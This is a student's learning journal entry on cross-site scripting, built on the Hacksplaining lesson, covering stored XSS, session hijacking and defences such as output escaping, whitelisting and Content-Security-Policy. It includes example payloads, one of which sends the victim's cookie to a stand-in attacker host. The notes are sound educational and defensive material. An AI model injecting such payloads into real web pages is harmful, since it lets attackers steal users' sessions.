 # Entry #4: Learning Cross-site Scripting and A Realization  
For this week, I have moved on onto another topic, which is called Cross-site Scripting. While doing so, I came across something that I have realized in terms of the way I have been working on this project. Read more to know what I mean! :)  

##### Some Side Notes: 
If you would like to follow along with what you will read in my entry, click on this link: [Hacksplaining: Cross-site Scripting](https://www.hacksplaining.com/exercises/xss-stored). 

When you click on the link, you will notice that there are circles on the top-left corner. Those circles are like the steps or slides of a presentation. You can click on them to go back and forward. 
![circles](../images/week4/cross-ss-circles.PNG)  

## Cross-site Scripting 
What is this? Cross-site scripting is method a method that allows users to add to a site’s content, which can possibly lead to injection of malicious JavaScript.  

#### Demonstration 
**_Circle 2_**

If your website has the ability to facilitate discussions between users commenting, then those conversations/comments need to be saved to a database to show yourself and others users.  

**_Circle 3_** 

As the popularity of your site increases, attackers get more and more attracted. 

**_Circle 4_**

By being careful with HTML, it can prevent hackers from abusing the comment section through the usage of malicious JavaScript (example).   

**_Circle 5_**

Mal (the hacker) tries to mess with me (user) by using this: ```<script>alert('Your croissants are limp and sad.')</script>```. This leads to a message popping up in the user’s laptop/computer, which only user gets to see.  

**_Circle 6_**

From having a real attack, a person’s cookies could be stolen, allowing the hackers to have a period of time to hijack.  

Code used for this sections: ```<script>window.location = 'haxxed.com?cookie=' + document.cookie</script>```
* ```<script> </script>```: Script tags 
* 

**_Circle 7_**
Making a comment be liked by fake people → ```<script>upvote()</script>```     

### Signs of Danger   
The level of damage can vary depending on the sensitivity that your data has.  

#### Ways To Attack: 
* Spreading [worms](https://www.hacksplaining.com/glossary/worms) on social media sites. 
    * Worm → malicious program that can multiply itself and can leak into other systems. User can be a victim to this if mistakenly downloaded or executed some thing that was thought to be something else.   
    * [Samy](https://en.wikipedia.org/wiki/Samy_(computer_worm)) (computer worms) a.k.a JS.Spacehero, created by [Samy Kamkar](https://en.wikipedia.org/wiki/Samy_Kamkar)    
        * Fastest virus spread of all time (in MySpace) → 1,000,000+ ran the [payload](https://en.wikipedia.org/wiki/Payload_(computing))  
        * User looks at an infected profile page → payload gets copied + injected into the other user’s profile page 
        * Happened to known social media websites → Facebook, Twitter, and YouTube  
* Hijacking (stealing something while it is in action) a session 
    * Hacker uses JavaScript → have the session ID sent to a site that is under his/her control + pretend to be the user.  
* Theft 
    * Identity theft → Entering confidential info into a website that has been messed with → details can be stolen through JavaScript 
    * Stealing sensitive data (ex: passwords) 
    * Financial fraud on banking websites 
* Denial of Service Attacks ([DOS attack](https://www.hacksplaining.com/glossary/denial-of-service-attacks)) and  website vandalism 
    * Goal of attack: Flood a website service/website → making it unavailable 
    Online application have “limited bandwidth” → will be made unavailable if there is a bunch of dangerous “traffic” → involves many different fake IP addresses → “making them much harder to defeat”   
    * Solution → “properly configured firewall”  
    * Other resources: 
        * [Denial of Service Attacks](https://www.hacksplaining.com/exercises/denial-of-service-attacks) (lesson from Hacksplaining)  
        * [How to stop a DDOS attack](https://blog.fastmail.com/2015/12/08/how-to-stop-a-ddos-attack/)     

#### Protection
**_Dynamic Content_**    
* Web pages → HTML + dynamic content sewn in 
* [Stored XSS attacks](https://www.google.com/search?q=Stored+XSS+attacks&oq=Stored+XSS+attacks&aqs=chrome..69i57&sourceid=chrome&ie=UTF-8) → dynamic content is not set up well from the “backend data store” 
* Attacker → uses the advantage of “editable field” → inputting JavaScript code → executed  
* If your site is not one where you manage content → it is rare for you to have your users use raw HTML 
* “ coming from a data store” → so that the browser knows that it should be labeled as the contents of HTML, and not raw HTML 
    * “coming from a data store” → that is connected to your 
* Escape all dynamic content by replacing significant characters with HTML ones 

Significant Characters | HTML “Characters”
-----------------------|------------------------
          “            |       &#34
      Octothorp(#)     |       &#35
          &            |       &#38
          ‘            |       &#39
          (            |       &#40
          )            |       &#41
          /            |       &#47
          ;            |       &#59
          <            |       &#60
      Greater sign (>) |       &#62

* “Most modern framework will escape dynamic content by default” 
* Escaping editable content → make the browser never look at the code as executable → closes the chances of XSS attacks  

**_Whitelist Values_**  
* Condition → a certain dynamic data item can only handle a “handful” of valid values → try to limit the values in the “data store” + have your logic-checker only allow good values that are known of already 
* Their example → instead of asking for a person to type in the country that he/she lives in, ask him/ her to pick it from a drop-down list 

**_Content-Security Policy_** 
* Modern browsers support content-security policies → permits the programmer of a webpage to have say in where JavaScript and other sources be shown 
* XSS attacks → from hackers/attackers using malicious scripts on a website → by using script tags in HTML tags or “trick the browser into loading the JavaScript from a malicious third-party domain”. 
* Putting a content security policy in the “response header” → tells browse to never run “inline JavaScript” + (“lock down”/) make note of which domains can run JavaScript 
    * ```Content-Security-Policy: script-src 'self' https://apis.google.com```      
* Content security policy can be set in 

### Realization/Next Steps 
While I have been learning, I have been using only one website so far, which is [Hacksplaining](https://www.hacksplaining.com/lessons). With every lesson that I go through, I try to take note of everything, which takes a long time because it seems like every topic has a lot to it already. In order to progress faster, a method that I try to use would be the following: whenever I start a new topic, just read through it first. After doing so, I should decide how extensive my note should be on this particular topic. 



